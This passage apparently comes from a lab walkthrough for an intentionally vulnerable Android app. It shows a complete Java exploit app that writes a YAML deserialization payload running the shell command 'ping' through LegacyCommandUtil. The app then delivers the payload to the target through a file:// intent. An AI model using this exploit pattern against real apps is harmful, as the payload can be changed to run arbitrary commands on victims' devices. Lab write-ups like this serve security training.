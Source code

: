 Or more better!!! We can use the **file** scheme, if we don't care about **host the `.yml`** file in an **external server** or the **victim device** don't have **internet access**.
We can create an **`.yml`** file with our app, then, send the intent loading the exploit.
```java
package com.lautaro.exploiteditor;

import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import android.util.Log;

import androidx.appcompat.app.AppCompatActivity;

import java.io.File;
import java.io.FileOutputStream;
import java.io.OutputStreamWriter;

public class MainActivity extends AppCompatActivity {

    private static final String TAG = "ExploitLauncher";
    private static final String FILE_NAME = "exploit.yml";
    private static final String EXPLOIT_CONTENT = "exploit: !!com.mobilehackinglab.configeditor.LegacyCommandUtil [\"ping 192.168.18.44\"]";

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        try {
            // Create file
            File file = new File(getFilesDir(), FILE_NAME);
            FileOutputStream fos = new FileOutputStream(file);
            OutputStreamWriter writer = new OutputStreamWriter(fos);
            writer.write(EXPLOIT_CONTENT);
            writer.close();
            fos.close();

            Log.d(TAG, "Archivo exploit.yml creado en: " + file.getAbsolutePath());

            // Create intent
            Uri fileUri = Uri.parse("file://" + file.getAbsolutePath());
            Intent intent = new Intent(Intent.ACTION_VIEW);
            intent.setDataAndType(fileUri, "application/yaml");
            intent.setClassName("com.mobilehackinglab.configeditor", "com.mobilehackinglab.configeditor.MainActivity");
            intent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);

            startActivity(intent);
            Log.d(TAG, "Intent enviado correctamente con archivo exploit.yml");

        } catch (Exception e) {
            Log.e(TAG, "Error al crear o enviar el exploit.yml", e);
        }

        // Finish our app
        finish();
    }
}
```
Don't forget put in the `AndroidManifest.xml` this permissions
```XML
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>
<uses-permission android:name="android.permission.MANAGE_EXTERNAL_STORAGE"/>
```